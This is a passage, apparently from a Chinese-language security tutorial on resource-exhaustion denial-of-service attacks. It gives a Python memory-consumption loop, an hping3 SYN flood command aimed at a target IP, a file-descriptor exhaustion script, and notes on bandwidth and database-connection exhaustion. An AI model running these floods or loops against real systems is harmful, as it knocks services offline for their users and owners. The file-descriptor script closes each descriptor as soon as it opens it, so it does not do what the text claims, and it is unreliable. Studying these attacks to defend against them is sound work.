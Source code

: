 **示例代码**：
```python
import time

def consume_memory():
    data = []
    while True:
        data.append(' ' * 1024 * 1024)  # 每次分配1MB内存
        time.sleep(0.1)

consume_memory()
```

### 2.3 带宽资源耗尽攻击

**攻击手法**：通过大量网络请求消耗带宽资源。

**利用方式**：
- **DDoS攻击**：通过大量分布式请求，消耗目标系统的带宽资源。
- **大文件传输**：通过传输大文件，消耗目标系统的带宽资源。

**示例命令**：
```bash
# 使用hping3进行带宽耗尽攻击
hping3 -S --flood -p 80 target_ip
```

### 2.4 文件描述符耗尽攻击

**攻击手法**：通过大量文件打开操作消耗文件描述符。

**利用方式**：
- **文件打开循环**：编写恶意代码，使目标系统不断打开文件，消耗文件描述符。
- **大量文件创建**：通过大量文件创建操作，消耗文件描述符。

**示例代码**：
```python
import os

def consume_fd():
    while True:
        try:
            fd = os.open('temp_file', os.O_CREAT)
            os.close(fd)
        except OSError:
            break

consume_fd()
```

### 2.5 数据库连接耗尽攻击

**攻击手法**：通过大量数据库连接请求消耗数据库连接池。

**利用方式**：
- **连接池耗尽**：编写恶意代码，使目标系统不断创建数据库连接，消耗连接池资源。
- **大量查询操作**：通过大量数据库查询操作，消耗数据库连接池。
